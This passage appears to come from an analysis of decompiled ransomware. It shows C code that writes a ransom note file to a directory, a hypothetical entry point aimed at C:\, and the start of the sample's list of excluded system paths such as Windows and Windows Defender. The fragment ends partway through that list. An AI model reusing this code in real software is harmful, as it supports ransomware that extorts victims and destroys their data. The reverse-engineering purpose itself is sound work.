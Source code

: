 ```c
    WCHAR filePath[MAX_PATH];
    HANDLE hFile;
    DWORD bytesWritten;

    // Build the file path (e.g., "C:\\README.txt")
    swprintf(filePath, MAX_PATH, L"%s\\README.txt", directory);

    // Create the file
    hFile = CreateFileW(
        filePath,
        GENERIC_WRITE,
        0,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    if (hFile == INVALID_HANDLE_VALUE) {
        return GetLastError();
    }

    // Write the ransom note
    WriteFile(
        hFile,
        Buffer,
        sizeof(Buffer) - 1, // Size excluding the null terminator
        &bytesWritten,
        NULL
    );

    CloseHandle(hFile);
    return (bytesWritten == (sizeof(Buffer) - 1)) ? 0 : 1;
}

// Hypothetical entry point
int __fastcall main(int argc, const char **argv, const char **envp) {
    const WCHAR* targetDir = L"C:\\";
    writeRansomNote(0, targetDir);
    return 0;
}
```

-   **Excluded Paths (off_14000C3B0)**:
    
```c
wchar_t *off_14000C3B0[33] = {
    L"Boot",
    L"Windows",
    L"Windows.old",
    L"$Windows.~bt",
    L"$windows.~ws",
    L"windows nt",
    L"msbuild",
    L"microsoft",
    L"perflog",
    L"microsoft.net",
    L"microsoft shared",
    L"common files",
    L"windows defender",
    L"windowspowershell",
    L"windows security",
    L"usoshared",
    L"windowsapp",
```